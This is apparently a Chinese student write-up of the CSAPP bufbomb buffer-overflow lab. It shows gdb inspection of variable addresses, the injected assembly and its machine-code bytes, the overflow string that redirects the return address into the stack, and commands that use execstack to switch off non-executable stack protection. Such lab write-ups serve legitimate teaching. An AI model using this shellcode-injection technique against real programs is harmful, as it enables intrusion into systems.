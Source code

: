 汇编语言的第7、8行对应源程序的if语句，所以猜测global_value被存储在`0x804a1dc`中，cookie被存储在`0x804a1cc`中。检查如下：

```powershell
(gdb) x/x 0x804a1dc
0x804a1dc <global_value>: 0x00000000
(gdb) x/x 0x804a1cc
0x804a1cc <cookie>:     0x00000000
```

思路是将汇编代码注入到char数组的首地址`0xffffb96c`，让char数组的首地址覆盖$eax+4y原来的返回地址，当发生ret时，就会跳转到char数组首地址执行注入的汇编代码。汇编代码中要先修改global_value的值，然后将 bang 函数的地址 push 进栈中，然后使用 ret 命令。当执行到注入的ret命令时，因为push了bang函数的地址，就会返回到bang函数执行。汇编代码如下：

```assembly
movl  $0x58932f5a, 0x804a1dc		# global_value=cookie
pushl $0x08048d60					# 将 bang 函数的首地址压入栈
ret
```

将汇编语言转换成十六进制的机器代码：

```powershell
gcc -m32 -c example.s 
objdump -d example.o > example.d
```

```assembly
00000000 <.text>:
   0:	c7 05 dc a1 04 08 5a 	movl   $0x58932f5a,0x804a1dc
   7:	2f 93 58 
   a:	68 60 8d 04 08       	push   $0x8048d60
   f:	c3                   	ret    
```

构造注入机器代码，转成字符串并运行。

```assembly
// exploit2.txt
c7 05 dc a1 04 08 5a 2f 
93 58 68 60 8d 04 08 c3
6c b9 ff ff 00 00 00 00
```

结果出现段错误，是因为Linux系统默认开启了栈保护机制，用于阻止缓冲区溢出攻击。所以不可以在栈中直接执行指令，需要使用execstack工具解除栈执行限制。即使如此也只能在gdb调试下有效，实际运行仍然会出现段错误。

```powershell
sudo apt-get install execstack 	#安装execstack
execstack -s bufbomb			#修改程序堆栈的可执行属性
```

<img src="csapp-lab1-2-3/image-20221029201251844.png" style="zoom:80%;" />
